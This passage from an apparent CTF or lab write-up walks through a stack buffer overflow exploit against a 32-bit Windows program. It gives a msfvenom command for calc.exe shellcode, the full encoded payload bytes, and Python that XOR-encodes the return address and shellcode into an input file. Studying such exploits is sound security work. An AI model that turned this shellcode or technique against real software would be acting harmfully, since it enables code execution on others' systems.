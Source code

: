 Notice that I successfully trigged a breakpoint! (At 0019FF30)

Now we just need to replace the `b` with shellcode to execute `calc.exe`

I using `msfvenom` in Kali Linux to generate the shellcode:
```bash
msfvenom -p windows/exec CMD=calc.exe -a x86 -b '\xC6' -f python
# x86 means is 32-bit program, the '\xC6' is to filter the 0xC6 character 
# Because fgets will auto terminate when it sees \n (0x0A ^ 0xCC = 0xC6)
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
Final size of python file: 1078 bytes
buf =  b""
buf += b"\xdb\xcd\xb8\xaf\x5b\xd2\x79\xd9\x74\x24\xf4\x5b\x33"
buf += b"\xc9\xb1\x31\x31\x43\x18\x83\xeb\xfc\x03\x43\xbb\xb9"
buf += b"\x27\x85\x2b\xbf\xc8\x76\xab\xa0\x41\x93\x9a\xe0\x36"
buf += b"\xd7\x8c\xd0\x3d\xb5\x20\x9a\x10\x2e\xb3\xee\xbc\x41"
buf += b"\x74\x44\x9b\x6c\x85\xf5\xdf\xef\x05\x04\x0c\xd0\x34"
buf += b"\xc7\x41\x11\x71\x3a\xab\x43\x2a\x30\x1e\x74\x5f\x0c"
buf += b"\xa3\xff\x13\x80\xa3\x1c\xe3\xa3\x82\xb2\x78\xfa\x04"
buf += b"\x34\xad\x76\x0d\x2e\xb2\xb3\xc7\xc5\x00\x4f\xd6\x0f"
buf += b"\x59\xb0\x75\x6e\x56\x43\x87\xb6\x50\xbc\xf2\xce\xa3"
buf += b"\x41\x05\x15\xde\x9d\x80\x8e\x78\x55\x32\x6b\x79\xba"
buf += b"\xa5\xf8\x75\x77\xa1\xa7\x99\x86\x66\xdc\xa5\x03\x89"
buf += b"\x33\x2c\x57\xae\x97\x75\x03\xcf\x8e\xd3\xe2\xf0\xd1"
buf += b"\xbc\x5b\x55\x99\x50\x8f\xe4\xc0\x3e\x4e\x7a\x7f\x0c"
buf += b"\x50\x84\x80\x20\x39\xb5\x0b\xaf\x3e\x4a\xde\x94\xb1"
buf += b"\x00\x43\xbc\x59\xcd\x11\xfd\x07\xee\xcf\xc1\x31\x6d"
buf += b"\xfa\xb9\xc5\x6d\x8f\xbc\x82\x29\x63\xcc\x9b\xdf\x83"
buf += b"\x63\x9b\xf5\xe7\xe2\x0f\x95\xc9\x81\xb7\x3c\x16"
```
Update the python code:
```python
address = "0019FF30"
address = address.decode("hex")
eip = ''
for a in address:
	eip = chr(ord(a) ^ 0xcc) + eip

buf =  b""
...
...
...
shellcode = ''
for b in buf:
	shellcode += chr(ord(b) ^ 0xcc) # The shellcode also need to XOR 0xCC
open("buf",'w').write("a"*16 + eip + shellcode + "\n")
```
